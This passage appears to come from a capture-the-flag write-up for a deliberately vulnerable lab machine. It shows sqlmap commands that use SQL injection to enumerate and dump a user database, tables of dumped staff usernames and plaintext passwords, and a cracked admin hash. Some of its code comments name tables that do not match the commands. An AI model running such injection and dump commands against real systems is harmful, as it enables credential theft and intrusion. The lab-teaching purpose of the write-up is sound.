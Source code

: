 CASH CASH CASH, we got the credentials for ALL STAFF (i hope):

| username  | password      |
|-----------|---------------|
| marym     | 3kfs86sfd     |
| julied    | 468sfdfsd2    |
| fredf     | 4sfd87sfd1    |
| barneyr   | RocksOff      |
| tomc      | TC&TheBoyz    |
| jerrym    | B8m#48sd      |
| wilmaf    | Pebbles       |
| bettyr    | BamBam01      |
| chandlerb | UrAG0D!       |
| joeyt     | Passw0rd      |
| rachelg   | yN72#dsd      |
| rossg     | ILoveRachel   |
| monicag   | 3248dsds7s    |
| phoebeb   | smellycats    |
| scoots    | YR3BVxxxw87   |
| janitor   | Ilovepeepee   |
| janitor2  | Hawaii-Five-0 |

Before we do anything with these credentials, let's try to check out the Staff database.
```bash
# Check what tables are in the 'Staff' database
sqlmap -r search.txt -D users --tables

# Check what columns are in the 'StaffDetails' table (from the 'Staff' database)
sqlmap -r search.txt -D users -T UserDetails --columns

# Check what columns are in the 'Users' table (from the 'Staff' database)
sqlmap -r search.txt -D users -T UserDetails --columns

# Display Username + Password from the 'Users' table (from the 'Staff' database)
sqlmap -r search.txt -D users -T UserDetails -C username,password --dump
```

CASH AGAIN!!!! We got some more credentials, and sqlmap did us the favor and cracked the password:

| Username | Password      |
|----------|---------------|
| admin    | 856f5de590ef37314e7c3bdf6f8a66dc (transorbital1) |
